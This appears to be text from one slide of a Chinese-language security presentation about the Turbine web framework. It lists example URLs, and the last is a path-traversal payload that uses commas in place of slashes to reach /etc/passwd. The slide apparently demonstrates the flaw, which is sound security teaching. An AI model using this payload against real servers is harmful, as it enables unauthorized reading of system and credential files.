

# 预见未来
Turbine
http://www.inbreak.net/my/turbine/template/pubinfo,infopub,businpub.html
http://www.inbreak.net/my/turbine/template/?template=pubinfo,infopub,businpub.html
http://www.inbreak.net/my/turbine/template/?template=pubinfo,..,..,..,..,..,etc,passwd

95